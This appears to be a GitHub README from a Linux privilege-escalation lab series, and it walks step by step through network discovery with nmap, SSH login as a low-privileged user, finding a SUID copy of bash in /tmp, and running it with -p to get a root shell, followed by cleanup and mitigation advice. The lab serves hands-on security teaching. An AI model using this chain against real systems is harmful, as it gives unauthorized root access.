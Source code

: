 # 🔓 Privilege Escalation – SUID Bash Exploit

This scenario demonstrates how an attacker can escalate from a low-privileged user to root by abusing a misconfigured SUID `bash` binary found on the system.

---

## 🛰️ Step 1: Discover the Target

We begin by identifying the target machine’s IP on the local network.

From the **attacker machine (Kali Linux)**:

### 🔍 1.1 Perform a ping sweep

```bash
$ sudo nmap -sn 10.10.10.0/24
```
This will scan the entire /24 subnet to detect live hosts.

### We discovered Target machine IP Address

```bash
Nmap scan report for 10.10.10.135
Host is up (0.0010s latency).
MAC Address: 00:0C:29:47:C5:07 (VMware)
```
This confirms the target VM is online at 10.10.10.135.

## 🔍 Step 2: Scan for Open Ports
Once the target IP is known, scan for open ports to identify entry points.
## 2.1 Run TCP SYN Scan on Port 22 (SSH)
```bash
$ nmap -sS -p 22 10.10.10.135
```
## SSH Port is Open
```bash
PORT   STATE SERVICE
22/tcp open  ssh
```
Port 22 is open — meaning we can attempt an SSH connection

## 🔐 Step 3: SSH Access as Low-Privileged User

Assuming valid credentials for a low-privileged user were obtained (victim:attacker123), we attempt an SSH login:

```bash
ssh victim@10.10.10.135
```
Once connected, verify our current identity:
```bash
victim@sam-vm:~$ whoami
victim

victim@sam-vm:~$ id
uid=1001(victim) gid=1001(victim) groups=1001(victim)
```
We confirm:

- The user victim is not part of the sudo group

- No elevated privileges are present

➡️ Next, we enumerate the system for misconfigurations or vulnerable binaries.

## 🔍 Step 4: Enumerate SUID Binaries
We search for files with the SUID permission bit set (4000), which could allow privilege escalation:

```bash
victim@sam-vm:~$ find / -perm -4000 -type f 2>/dev/null
```
Among the results, we spot a suspicious one:

```bash
victim@sam-vm:~$ ls -l /tmp/rootbash
-rwsr-sr-x 1 root root 1396520 Jul 10 13:03 /tmp/rootbash
```
### ⚠️ What makes this dangerous?
- The s in -rwsr-sr-x means it runs with the file owner’s privileges (which is root)

- It's a copy of /bin/bash, placed in /tmp, and world-executable

#### This means any user can run it and get root privileges.

## 🚀 Step 5: Exploit the SUID Bash Binary

Launch it with the -p flag to preserve SUID root privileges:
```bash
victim@sam-vm:~$ /tmp/rootbash -p
```
Now inside the new shell:

```bash
rootbash-5.1# whoami
root

rootbash-5.1# id
uid=0(root) gid=0(root) groups=0(root)
```
🎉 We have successfully escalated from a limited user (victim) to root.

---

## Post-Exploitation

Clean up:
```bash
rootbash-5.1# rm /tmp/rootbash
```

##  Mitigation

- Never assign the SUID bit to binaries like bash, python, or other shells

- Regularly audit SUID binaries:
  ```bash
     $ find / -perm -4000 -type f
     ```
- Secure and monitor /tmp for unauthorized binaries

## 📸 Screenshots!

### nmap Ping Sweep
![Nmap Ping Sweep](./screenshots/01-nmap-ping-sweep.png)

### SSH-Login 
![SSH_login](./screenshots/02-ssh-login-victim.png)

### SUID Bash Found
![Suid-bash](./screenshots/03-suid-bash-found.png)

### Root Access Confirmed
![Root-access](./screenshots/04-root-access-confirmed.png)

---

## Conclusion

In this lab, we demonstrated a complete exploitation chain starting from reconnaissance to gaining root access using a misconfigured SUID Bash binary. This is a classic example of how a small misconfiguration can lead to full system compromise.



## Credits

This walkthrough is part of the **Linux Privilege Escalation Lab Series** created for hands-on learning.

👨‍💻 Lab Author: [Syed Ata Ur Rahaman](https://github.com/Ataur1502)  
🔗 GitHub Repository: [linux-privesc-lab](https://github.com/Ataur1502/linux-privesc-lab)  
🛠️ Tools Used: `nmap`, `ssh`, `find`, `bash`, `Linux VM`, `VMware`  
🎯 Target: Ubuntu VM with intentional misconfigurations



## 📢 Disclaimer

This lab is intended **strictly for educational and ethical use**. Always get proper authorization before testing any system.

---







